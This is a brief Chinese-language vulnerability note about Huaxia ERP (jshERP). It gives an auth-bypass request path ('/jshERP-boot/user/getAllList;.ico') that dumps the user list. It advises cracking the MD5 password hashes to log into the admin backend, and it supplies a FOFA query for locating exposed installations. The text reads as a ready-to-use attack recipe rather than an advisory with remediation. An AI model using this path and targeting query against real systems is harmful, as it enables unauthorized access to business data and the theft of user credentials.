


#### 影响范围

华夏ERP

#### 漏洞概述

华夏ERP基于SpringBoot框架、SaaS模式，立志为中小企业提供开源好用的ERP软件，目前专注进销存+财务功能。华夏ERP系统存在敏感信息漏洞，攻击者可利用该漏洞获取敏感信息

#### 漏洞复现

漏洞数据包：

```
/jshERP-boot/user/getAllList;.ico 
```



密码是md5加密的，解密后即可登录后台


使用账户密码登录：



#### 资产测绘

FOFA：

```
"jshERP-boot"
```


